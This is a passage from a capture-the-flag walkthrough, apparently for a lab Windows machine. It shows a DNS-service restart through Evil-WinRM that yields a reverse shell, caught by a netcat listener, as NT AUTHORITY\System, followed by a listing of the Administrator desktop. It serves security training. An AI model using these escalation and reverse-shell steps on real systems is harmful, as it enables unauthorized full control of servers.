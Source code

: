 Then, we will stop the DNS service and quickly restart it, as mentioned in the note we saw earlier—after 60 seconds, it will be reverted.

````powershell
*Evil-WinRM* PS C:\Users\ryan\Documents> sc.exe stop dns

SERVICE_NAME: dns
        TYPE               : 10  WIN32_OWN_PROCESS
        STATE              : 3  STOP_PENDING
                                (STOPPABLE, PAUSABLE, ACCEPTS_SHUTDOWN)
        WIN32_EXIT_CODE    : 0  (0x0)
        SERVICE_EXIT_CODE  : 0  (0x0)
        CHECKPOINT         : 0x1
        WAIT_HINT          : 0x7530
 
*Evil-WinRM* PS C:\Users\ryan\Documents> sc.exe start dns

SERVICE_NAME: dns
        TYPE               : 10  WIN32_OWN_PROCESS
        STATE              : 2  START_PENDING
                                (NOT_STOPPABLE, NOT_PAUSABLE, IGNORES_SHUTDOWN)
        WIN32_EXIT_CODE    : 0  (0x0)
        SERVICE_EXIT_CODE  : 0  (0x0)
        CHECKPOINT         : 0x0
        WAIT_HINT          : 0x7d0
        PID                : 2664
        FLAGS              :
````
## LOGIN AS ADMINISTRATOR
---
If everything has been done correctly, we will receive a shell as **NT AUTHORITY\System**

````powershell
❯ nc -lvnp 4444
listening on [any] 4444 ...
connect to [10.10.14.9] from (UNKNOWN) [10.10.10.169] 56614
Microsoft Windows [Version 10.0.14393]
(c) 2016 Microsoft Corporation. All rights reserved.

C:\Windows\system32>whoami
whoami
nt authority\system

C:\Windows\system32>
````

````powershell
C:\Users\Administrator\Desktop>dir
dir
 Volume in drive C has no label.
 Volume Serial Number is D1AC-5AF6

 Directory of C:\Users\Administrator\Desktop

12/04/2019  05:18 AM    <DIR>          .
12/04/2019  05:18 AM    <DIR>          ..
01/28/2025  03:20 PM                34 root.txt
               1 File(s)             34 bytes
               2 Dir(s)   2,461,966,336 bytes free
````